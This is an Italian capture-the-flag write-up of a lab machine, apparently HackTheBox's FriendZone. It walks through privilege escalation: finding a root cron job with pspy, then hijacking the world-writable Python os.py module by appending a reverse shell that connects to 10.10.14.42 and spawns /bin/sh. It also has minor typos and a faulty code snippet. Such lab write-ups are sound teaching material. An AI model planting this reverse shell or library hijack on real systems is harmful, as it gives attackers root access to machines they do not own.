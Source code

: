 Lo copiamo nella cartella /tmp e gli forniamo i privilegi di esecuzione

```
www-data@FriendZone:/etc/Development$ cp pspy /tmp/   
www-data@FriendZone:/etc/Development$ cd /tmp/
www-data@FriendZone:/tmp$ ls
f  pspy
www-data@FriendZone:/tmp$ +x pspy 
+x: command not found
www-data@FriendZone:/tmp$ chmod +x pspy
```

Dopo aver esegutio pspy otteniamo il seguente output
```bash
2023/06/09 00:06:15 CMD: UID=0     PID=1      | /sbin/init splash 
2023/06/09 00:08:00 CMD: UID=0     PID=1080   | /usr/sbin/smbd --foreground --no-process-group 
2023/06/09 00:08:01 CMD: UID=0     PID=1082   | /bin/systemd-tmpfiles --clean 
2023/06/09 00:08:01 CMD: UID=0     PID=1081   | /usr/sbin/CRON -f 
2023/06/09 00:08:01 CMD: UID=0     PID=1084   | /usr/bin/python /opt/server_admin/reporter.py 
2023/06/09 00:08:01 CMD: UID=0     PID=1083   | /bin/sh -c /opt/server_admin/reporter.py
```

andiamo a vedere il file "reporter..py"
```python
friend@FriendZone:cat /opt/server:_admin/reporter.py_

#!/usr/bin/python 
import os 
to_address = "admin1@friendzone.com" 
from_address = "admin2@friendzone.com" 
print "[+] Trying to send email to %s"%to_address 

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"''' 

#os.system(command) # I need to edit the script later 
# Sam ~ python developer
```
La maggior parte della sceneggiatura è commentata, quindi non c'è molto da fare lì. Importa il modulo os. Forse possiamo dirottarlo. Individuiamo il modulo sulla macchina e vediamo se abbiamo i permessi di scrittura sul file.

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -la | grep os.py
-rwxrwxrwx  1 root root  26123 Jun  8 15:32 os.py
-rw-r--r--  1 root root  25917 Jun  8 15:34 os.pyc
```

Perfetto abbiamo i permessi di scrittura non ci resta cha modificare il file aggiungendo una revshell infondo al file 

```bash
import socket,subprocess,os;  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);  
s.connect(("10.10.14.42",1233));  
dup2(s.fileno(),0);  
dup2(s.fileno(),1);  
dup2(s.fileno(),2);  
p=subprocess.call(["/bin/sh","-i"]);
```
